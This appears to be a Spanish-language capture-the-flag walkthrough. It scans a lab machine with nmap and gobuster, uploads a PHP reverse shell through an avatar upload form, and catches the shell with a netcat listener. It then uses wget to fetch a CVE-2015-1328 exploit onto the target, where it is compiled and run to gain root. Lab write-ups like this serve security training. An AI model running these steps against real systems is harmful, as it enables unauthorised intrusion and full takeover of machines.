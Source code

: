 En primer lugar realizamos un escaneo de puertos con ayuda de la herramienta nmap a la ip víctima.
> nmap -p- -sS -sC -sV --open --min-rate=5000 -vvv -n -Pn IP -oN escaneo
Abrimos el reporte con nano y observamos que el puerto 80 esta abierto. Esto nos indica que nos encontramos ante un servidor web ademas podemos ver la versión de Apache.
![paso1](https://github.com/Destri0/Ciberseguridad/assets/109970051/7536dd12-5e72-4f77-ba16-2cb7eaa6ed95)
Introducimos la ip victima en nuestro buscador y vemos un panel de login.
![Paso2](https://github.com/Destri0/Ciberseguridad/assets/109970051/a5299879-49e6-4661-b822-3e42eb3e46a5)
En este caso al existir un apartado de registro procedemos a nuestro registro en la web.
![Paso3](https://github.com/Destri0/Ciberseguridad/assets/109970051/d16234f4-c21e-46e8-b050-2ed37433cb93)
Una vez registrado buscaremos por toda la pagina un lugar donde se pueda subir un archivo.
![Paso4](https://github.com/Destri0/Ciberseguridad/assets/109970051/7fb0ae53-0fb7-4b44-bdfa-e734372a4e24)
Encontramos en el apartado de Personal options un lugar para subir nuestro avatar. Aprovecharemos eso para subir una reserve shell.
Antes utilizaremos la herramienta gobuster para ver las direcciones que tiene la ip victima donde se podria subir ese archivo.
> gobuster dir -u http://IP_VICTIMA/ -w /usr/share/wordlists/dirbuster/directory-list-lowecase-2.3-medium.txt
![Paso5](https://github.com/Destri0/Ciberseguridad/assets/109970051/00faa6fa-6e38-4742-9b6e-d48fbe463c95)
Una vez ejecutado el comando podremos observar que la ip victima tiene un directorio de subidas. Ahi encontraremos nuestra reserve shell cuando la subamos.
Abrimos el directorio de /uploads en nuestro buscador.
Despues utilizaremos la siguiente reverse shell.
> https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
En ese archivo cambiaremos la ip y pondremos la ip desde donde estamos realizando el ataque y el puerto lo cambiaremos por el 433 que sera nuestro puerto de escucha.
Una vez que tenemos el archivo editado lo subiremos al apartado de avatar y observaremos que si nos vamos a /uploads encontraremos el archivo subido.
![Paso6](https://github.com/Destri0/Ciberseguridad/assets/109970051/fba5ac03-3226-4713-b6a0-85afe5d474bf)
Ahora nos pondremos en escucha por el puerto 433 en nuestra consola con el siguiente comando.
> nc -nlvp 433
![Paso7](https://github.com/Destri0/Ciberseguridad/assets/109970051/4fd8dd9f-b57c-4484-a689-3d5dc8f4da13)
Una vez que nos encontramos en escucha por el puerto 433 de nuestra consola nos vamos al directorio de /uploads y pinchamos en nuestro archivo para que se ejecute.
![Paso8](https://github.com/Destri0/Ciberseguridad/assets/109970051/faccc3cb-ca42-4c82-8e54-4f2ababb4608)
Podemos ver en nuestra consola que tenemos acceso a la maquina victima pero no tenemos permisos de root.
En este caso ejecutamos el siguiente comando para ver en que version del sistema operativo nos encontramos.
> lsb_release -a
Vemos que nos encontramos en Ubuntu 14.04 y que es una version muy antigua de Ubuntu. Realizamos unas busquedas en internet sobre vulneravilidades de escalada de privilegios de la version y 14.04 de ubuntu.
Encontramos una vulneravilidad que es la CVE-2015-1328. Ademas encontramos un scrip en github que sera el que utilicemos que es el siguiente.
> https://github.com/DarkenCode/PoC/blob/master/CVE-2015-1328/CVE-2015-1328.c
Dentro de la maquina victima nos colocaremos en el directorio de tmp.
> cd tmp
Despues ejecutaremos el comando siguiente para descargar el archivo en nuesta maquina victima.
> wget https://raw.githubusercontent.com/DarkenCode/PoC/master/CVE-2015-1328/CVE-2015-1328.c
Si ejecutamos el comando ls podemos observar que se a descargado el archivo en nuesta maquina victima.
![Paso9](https://github.com/Destri0/Ciberseguridad/assets/109970051/8972d014-f06b-41c8-ac85-db328b740480)
Tras eso ejecutaremos el siguiente comando para ejecutar el exploit.
> gcc CVE-2015-1328.c -o exploit && ./exploit
Tras eso si ejecutamos el comando
> whoami
![Paso10](https://github.com/Destri0/Ciberseguridad/assets/109970051/8c1b4f7d-2718-406e-92d9-2f7040636281)
Podemos observar que hemos ganado acceso total a la maquina victima como root.
Maquina vulnerada al completo.

